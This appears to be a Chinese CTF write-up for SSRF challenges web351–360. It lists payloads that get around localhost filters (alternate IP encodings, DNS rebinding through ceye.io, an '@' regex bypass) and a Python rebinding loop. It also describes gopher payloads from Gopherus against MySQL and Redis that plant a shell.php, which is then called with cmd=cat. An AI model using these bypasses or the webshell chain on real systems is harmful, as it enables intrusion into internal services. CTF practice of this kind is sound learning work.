



web351
直接访问flag.php

POST传参

352 353
限制了HTTP协议,ban掉了localhost和127.0.0.1
payload:
1
2
3
4
5
6
7
| url=http://127.1/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php
url=http://spoofed.burpcollaborator.net/flag.php
url=http://127.127.127.127/flag.php
url=http://0177.0.0.1/flag.php
url=http://2130706433/flag.php
|
参考这篇公众号里面的方法: https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247488685&idx=1&sn=5e1358879423a2402ae9316c1b454a79&chksm=fa686ddccd1fe4ca81b4f5b6f5b08d38a1a9900dbca18b3b8fe7a9c69dc41ff6a671dc09b572&mpshare=1&srcid=0724B38ETzODsggAeJQq0NUh&sharer_sharetime=1603804699721&sharer_shareid=23084298e2b2fbf6c63c28aed6685355&scene=1&subscene=10000&clicktime=1603805422&enterid=1603805422&ascene=1&devicetype=android-29&version=27001353&nettype=WIFI&abtest_cookie=AAACAA%3D%3D&lang=zh_CN&exportkey=AYbhwft%2Bvac8rXbFPobPN2M%3D&pass_ticket=X55y4G263ILSYM3Pr0eJPlXY%2BGJ1i0vomPMJs5wLB7fXK4bPafvwcmZ79w%2BzXEAZ&wx_header=1
还有la师傅博客 https://lazzzaro.github.io/2020/09/03/web-
353
url=http://2130706433/flag.php
354
url=http://spoofed.burpcollaborator.net/flag.php
355 356
url=http://0/flag.php
利用的trick是去0地址
1
2
3
4
| 去0地址
http://0/
http://127.1
http://127.0.1
|
357
用var_filter做了严格的限制
1
| filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)
|
看到网上用dns rebind绕过的思路
具体方法参考y1ng师傅的blog https://www.gem-love.com/websecurity/2733.html
但是不知道为什么一直不成功
看了下yu22x师傅的博客,302跳转和dns rebind都可以
302跳转
依旧失败,猜测这两次是用python搭建HTTP服务才失败的
dns rebind
注册 http://ceye.io/profile
填写以下信息

然后POSTurl=http://r.mtvhjl.ceye.io/flag.php多试几次就成功了
也可以用y1ng师傅的脚本
1
2
3
4
5
6
7
8
9
10
11
12
13
14
| import requests as req
s = req.session()
url = "http://1ac5ed8f-5525-4fb4-983e-e5e73f4fb345.chall.ctf.show/"
data = {
"url": "http://r.xxxxxxx.ceye.io/flag.php"
}
while True:
try:
text = s.post(url=url, data=data, timeout=5).text
print(text)
if "flag{" in text:
exit(0)
except Exception as e:
print(e)
|
358
1
2
3
| if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
echo file_get_contents($url);
}
|
绕过正则: url=http://ctf.@127.0.0.1/flag.php?show
359
可以用gopher打MySQL
直接用工具生成payload (sql语句记得加;) , 地址 https://github.com/tarunkant/Gopherus

再在check.php POSTreurl=xxx,_后面的字符要再进行一次url编码
然后shell.php

360
打redis

POST提交后,访问http://0d47ce0e-1906-401e-8f5a-47562108f93f.chall.ctf.show/shell.php?cmd=cat /flaaag